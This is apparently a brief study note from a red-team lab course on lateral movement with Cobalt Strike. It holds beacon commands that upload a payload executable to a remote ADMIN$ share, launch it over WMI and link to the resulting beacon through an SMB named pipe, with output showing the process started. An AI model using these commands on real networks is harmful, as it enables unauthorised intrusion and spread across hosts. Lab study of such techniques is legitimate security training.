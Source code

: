 
## WMI
```
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
Started process 3280 on web.dev.cyberbotic.io
```

Second argument is the pipe we assigned to the listener

![[Pasted image 20230330114217.png]]
```
link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```